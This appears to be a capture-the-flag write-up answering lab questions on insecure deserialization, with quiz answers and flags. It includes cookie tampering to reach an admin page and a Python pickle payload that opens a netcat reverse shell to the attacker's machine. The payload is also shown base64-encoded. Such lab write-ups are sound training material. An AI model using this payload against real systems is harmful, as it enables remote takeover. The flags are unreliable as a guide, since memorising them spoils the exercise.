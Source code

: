 # Task 21\~26

## Insecure Deserialization <a href="#insecure-deserialization" id="insecure-deserialization"></a>

### Who developed the Tomcat application? <a href="#who-developed-the-tomcat-application" id="who-developed-the-tomcat-application"></a>

#### Answer <a href="#answer" id="answer"></a>

The Apache Software Foundation

### What type of attack that crashes services can be performed with insecure deserialization? <a href="#what-type-of-attack-that-crashes-services-can-be-performed-with-insecure-deserialization" id="what-type-of-attack-that-crashes-services-can-be-performed-with-insecure-deserialization"></a>

#### Answer <a href="#answer-1" id="answer-1"></a>

denial of service

## Insecure Deserialization - Objects <a href="#insecure-deserialization---objects" id="insecure-deserialization---objects"></a>

## Select the correct term of the following statement: <a href="#select-the-correct-term-of-the-following-statement" id="select-the-correct-term-of-the-following-statement"></a>

#### Answer <a href="#answer-2" id="answer-2"></a>

A Behaviour

## Insecure Deserialization - Deserialization <a href="#insecure-deserialization---deserialization" id="insecure-deserialization---deserialization"></a>

### What is the name of the base-2 formatting that data is sent across a network as? <a href="#what-is-the-name-of-the-base-2-formatting-that-data-is-sent-across-a-network-as" id="what-is-the-name-of-the-base-2-formatting-that-data-is-sent-across-a-network-as"></a>

#### Answer <a href="#answer-3" id="answer-3"></a>

binary

## Insecure Deserialization - Cookies <a href="#insecure-deserialization---cookies" id="insecure-deserialization---cookies"></a>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be? <a href="#if-a-cookie-had-the-path-of-webappcomlogin--what-would-the-url-that-the-user-has-to-visit-be" id="if-a-cookie-had-the-path-of-webappcomlogin--what-would-the-url-that-the-user-has-to-visit-be"></a>

#### Answer <a href="#answer-4" id="answer-4"></a>

webapp.com/login

### What is the acronym for the web technology that Secure cookies work over? <a href="#what-is-the-acronym-for-the-web-technology-that-secure-cookies-work-over" id="what-is-the-acronym-for-the-web-technology-that-secure-cookies-work-over"></a>

#### Answer <a href="#answer-5" id="answer-5"></a>

https

## Insecure Deserialization - Cookies Practical <a href="#insecure-deserialization---cookies-practical" id="insecure-deserialization---cookies-practical"></a>

### 1st flag (cookie value) <a href="#1st-flag-cookie-value" id="1st-flag-cookie-value"></a>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

```shell
echo -n "gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAZDYzOWIzNzUwMjM5NDM3ZTk4ZGZmOWM3NjEwOTYxZjlxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==" |base64 --decode
```

```md
}q(X    sessionIdqX d639b3750239437e98dff9c7610961f9qX
                                                      encodedflagqXTHM{good_old_base64_huh}qu.%
```

#### Answer <a href="#answer-6" id="answer-6"></a>

qXTHM{good\_old\_base64\_huh}

### 2nd flag (admin dashboard) <a href="#2nd-flag-admin-dashboard" id="2nd-flag-admin-dashboard"></a>

Change `user` to `admin`

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Answer <a href="#answer-7" id="answer-7"></a>

THM{heres\_the\_admin\_flag}

## Insecure Deserialization - Code Execution <a href="#insecure-deserialization---code-execution" id="insecure-deserialization---code-execution"></a>

1. on local machine

Run nc listener

```
nc -lvnp 4444
```

Edit the python script with your VPN IP

```python
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.18.1.159 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

Run python script and get the base64 command.

```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTguMS4xNTkgNDQ0NCA+IC90bXAvZpSFlFKULg==
```

Edit the encodedPayload and get remote access

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

```
cat /home/cmnatic/flag.txt
```

#### Answer <a href="#answer-8" id="answer-8"></a>

4a69a7ff9fd68
